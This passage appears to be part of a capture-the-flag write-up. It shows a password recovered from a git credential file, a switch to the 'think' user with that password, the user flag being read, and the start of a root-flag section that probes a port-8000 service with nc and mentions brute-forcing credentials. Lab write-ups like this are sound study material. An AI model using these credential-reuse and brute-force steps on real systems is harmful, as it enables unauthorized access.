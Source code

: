```ini
[credential "https://github.com"]
	username = think
	password = _TH1NKINGPirate$_
```

I used this password to switch to the `think` user:

```bash
su think
Password: _TH1NKINGPirate$_
```

## User Flag

Now as the `think` user, I accessed the home directory and retrieved the user flag:

```bash
cd ~
cat user.txt
```

```
996bdb1f619a68361417cabca5454705
```

---

✅ User flag successfully captured!


# Now for the root flag


## Overview

The target machine hosts an HTTP service on port `8000`, which exhibits a prompt-based interface for authentication. A careful analysis revealed the possibility of brute-forcing credentials. After successful login, shell access was achieved, ultimately leading to privilege escalation and the retrieval of the root flag.

---

## Steps Taken

### 1. **Service Enumeration**

Connecting to the service using `nc`:

```bash
nc 10.10.102.10 8000
```

Prompt:
```
admin
Password:
```

---